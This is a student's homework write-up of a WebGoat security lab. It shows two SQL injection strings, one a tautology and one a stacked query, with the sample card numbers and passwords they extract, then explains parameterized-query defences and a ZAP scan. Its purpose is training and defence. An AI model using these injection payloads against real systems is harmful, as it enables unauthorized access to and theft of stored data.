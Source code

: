 # Homework 09: Security Testing

**Author**: Liam Brew

**Date**: 8 November 2020

**Pledge**: I pledge my honor that I have abided by the Stevens Honor System

## Assignment Description

WebGoat is a web application that is full of security holes that can help you to understand security testing techniques.  You'll need to run WebGoat on your machine and then "attack" the system to "steal" information from the WebGoat website running locally on your machine.

## Part I

### SQL Injection

For the SQL Injection challenge, I entered the following string: ```Smith' or '1' = '1```. This formed the complete query seen below and resulted in the following data. As seen, Hershey Jolly's AMEX credit card number is **333300003333**.

```sql
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
```

```sql
USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT,
101, Joe, Snow, 987654321, VISA, , 0,
101, Joe, Snow, 2234200065411, MC, , 0,
102, John, Smith, 2435600002222, MC, , 0,
102, John, Smith, 4352209902222, AMEX, , 0,
103, Jane, Plane, 123456789, MC, , 0,
103, Jane, Plane, 333498703333, AMEX, , 0,
10312, Jolly, Hershey, 176896789, MC, , 0,
10312, Jolly, Hershey, 333300003333, AMEX, , 0,
10323, Grumpy, youaretheweakestlink, 673834489, MC, , 0,
10323, Grumpy, youaretheweakestlink, 33413003333, AMEX, , 0,
15603, Peter, Sand, 123609789, MC, , 0,
15603, Peter, Sand, 338893453333, AMEX, , 0,
15613, Joesph, Something, 33843453533, AMEX, , 0,
15837, Chaos, Monkey, 32849386533, CM, , 0,
19204, Mr, Goat, 33812953533, VISA, , 0,
```

### Advanced SQL Injection

For the Advanced SQL Injection challenge, I entered the following string: ```smith' or '1' = '1'; SELECT * FROM user_system_data WHERE password = 'dave' or '1' = '```. This completed the below query and resulted in the following data.

```sql
SELECT * FROM user_data WHERE last_name = 'smith' or '1' = '1'; SELECT * FROM user_system_data WHERE password = 'dave' or '1' = '1'
```

```sql
USERID, USER_NAME, PASSWORD, COOKIE,
101, jsnow, passwd1, ,
102, jdoe, passwd2, ,
103, jplane, passwd3, ,
104, jeff, jeff, ,
105, dave, passW0rD, ,
```

As seen above, dave's password is **passW0rD**.

### Explanation

I attacked this 'site' by taking advantage of the developer's failure to properly secure their input design. Due to SQL's syntax, it is possible to format conventional web form inputs so that they are recognized as full-on queries by the backend database. This can be through the use of certain characters such as **'**, **;**, and **-**, allowing the input section to be "broken" and the backend query that drives it to be accessed and modified. This enables potential data leakage, modification and deletion.

I would protect against SQL injections by using parameterized queries. This ensures that the form input and actual database interaction are separated, removing the ability for the users to inject their code. Additionally, input validation can also be used to improve the resiliency of the code in many sectors (both against SQL injections and other attacks as well as against generic information leakage and logic errors). I know many frameworks, such as Java's Spring and .NET's Entity Framework, that offer built-in tools to assist with input validation.

## Part II

The high risk alert that ZAP identified as being present on this website is the risk of an SQL injection. This makes sense, as the whole purpose of the website is to train one's ability in performing and combatting these types of attacks. Here, the SQL injection is possible on the "agree" parameter. This is seen in the screenshot below, followed by more images from by run-through of the attack.

![SQL Injection](https://github.com/Liam-Brew/SSW-567/blob/master/src/Homework/09/sql_injection.png)

![Scan Results](https://github.com/Liam-Brew/SSW-567/blob/master/src/Homework/09/scan_results_1.png)

![Log](https://github.com/Liam-Brew/SSW-567/blob/master/src/Homework/09/log.png)

![Alerts](https://github.com/Liam-Brew/SSW-567/blob/master/src/Homework/09/alerts.png)

## Reflection

I enjoyed this assignment. I am planning to pursue a master's degree here at Stevens in cyber security, so it was nice to be able to get some experience with the basic principles of things that I will be working with. SQL injections seem like a large issue when designing websites and databases, and I can see how care must be taken to protect against them. Luckily for me I will be on the opposite side when it comes to these things. I was previously unfamiliar with the ZAP tool and it seems to be very useful in automatically detecting potential weaknesses and vulnerabilities in websites. I will definitely be sure to use it in the future to assist me in my research.
